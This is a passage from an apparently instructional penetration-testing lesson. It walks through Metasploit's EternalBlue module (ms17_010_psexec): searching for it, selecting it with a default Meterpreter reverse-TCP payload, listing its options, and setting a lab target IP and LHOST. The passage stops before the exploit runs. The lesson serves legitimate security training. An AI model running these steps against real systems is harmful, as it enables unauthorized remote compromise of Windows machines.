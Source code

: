 Once we have `Metasploit` running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:

Public Exploits

```shell
msf6 > search exploit eternalblue Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- <SNIP> EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+ 4 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010
```

Tip: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search

We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it:

Public Exploits

```shell
msf6 > use exploit/windows/smb/ms17_010_psexec [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

Public Exploits

```shell
Module options (exploit/windows/smb/ms17_010_psexec): Name Current Setting Required Description ---- --------------- -------- ----------- DBGTRACE false yes Show extra debug trace info LEAKATTEMPTS 99 yes How many times to try to leak transaction NAMEDPIPE no A named pipe that can be connected to (leave blank for auto) NAMED_PIPES /usr/share/metasploit-framework/data/wordlists/named_pipes.txt yes List of named pipes to check RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>' RPORT 445 yes The Target port (TCP) SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing SERVICE_DISPLAY_NAME no The service display name SERVICE_NAME no The service name SHARE ADMIN$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share SMBDomain . no The Windows domain to use for authentication SMBPass no The password for the specified username SMBUser no The username to authenticate as ...SNIP...
```

Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have two options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). We can set them with the `set` command:

Public Exploits

```shell
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40 RHOSTS => 10.10.10.40 msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0 LHOST => tun0
```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

Public Exploits
